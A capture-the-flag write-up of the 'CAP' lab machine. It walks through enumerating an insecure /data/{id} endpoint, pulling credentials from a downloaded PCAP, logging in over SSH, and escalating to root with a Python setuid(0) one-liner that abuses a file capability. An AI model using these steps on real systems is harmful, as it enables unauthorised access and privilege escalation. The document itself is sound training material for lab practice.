






# CAP Write-up

## Overview

This write-up documents the steps used to compromise the CAP machine, from initial reconnaissance through obtaining a user shell and escalating privileges to root.

---

## 1. Reconnaissance

I started with a basic Nmap scan to identify the services exposed by the target.

```bash
nmap 10.129.9.103
```



The scan revealed an SSH,FTP and HTTP service, so I proceeded to investigate the web application.

---

## 2. Web Application Enumeration

I opened the HTTP service in a browser and inspected the available functionality.



While exploring the application, I noticed that it used a `/data/{id}` endpoint.

I tested different IDs, for example:

```text
/data/0
/data/1
/data/2
...
```

Changing the ID allowed me to access different captured network data.

Eventually, I discovered that the application allowed me to download a **PCAP file**.

---

## 3. PCAP Analysis

I downloaded the PCAP file and opened it using Wireshark.

During the traffic analysis, I found **sensitive credentials** contained in the captured network traffic.



The credentials provided a valid password for the user `nathan`.

This gave me a potential path to obtain an SSH session.

---

## 4. SSH Access

Using the discovered credentials, I connected to the target over SSH:

```bash
ssh nathan@10.129.9.103
```



After entering the discovered password, I successfully obtained a shell as `nathan`.

```text
nathan@cap:~$
```

---

## 5. Obtaining the User Flag

I checked the contents of the home directory:

```bash
ls
```

The `user.txt` file was present.

```bash
cat user.txt
```

The user flag was obtained successfully.



---

## 6. Privilege Escalation Enumeration

After obtaining the user shell, I searched for binaries with Linux capabilities configured:

```bash
getcap -r / 2>/dev/null
```

Among the results, I identified:

```text
/usr/bin/python3.8
```

The Python binary had a capability configuration that could be abused to execute commands with elevated privileges.

---

## 7. Privilege Escalation

I used Python to set the process UID to `0` and spawn a Bash shell:

```bash
/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

This resulted in a root shell.

I then verified access to the root directory:

```bash
cd /root
```


---

## 8. Obtaining the Root Flag

Finally, I read the root flag:

```bash
cat /root/root.txt
```



The machine was successfully compromised from the initial web application enumeration through privilege escalation to root.

---

## Attack Path

The overall attack chain was:

```text
Nmap
  │
  ▼
HTTP Enumeration
  │
  ▼
/data/{id} Enumeration
  │
  ▼
PCAP Download
  │
  ▼
Wireshark Analysis
  │
  ▼
Sensitive Credentials
  │
  ▼
SSH as nathan
  │
  ▼
user.txt
  │
  ▼
getcap Enumeration
  │
  ▼
Python 3.8 Capability
  │
  ▼
Root Shell
  │
  ▼
root.txt
```

## Key Takeaways

* Always enumerate web applications beyond the main page.
* Predictable object IDs such as `/data/{id}` can expose unintended resources.
* Network captures may contain sensitive information such as credentials.
* After obtaining a low-privileged shell, enumerate Linux capabilities as part of privilege-escalation checks.
* Misconfigured capabilities on interpreters such as Python can lead to privilege escalation.

## Tools Used

* Nmap
* Wireshark
* SSH
* Linux `getcap`

## Conclusion

CAP demonstrated a complete attack chain involving **web enumeration, PCAP analysis, credential discovery, SSH access, Linux capability enumeration, and privilege escalation**.


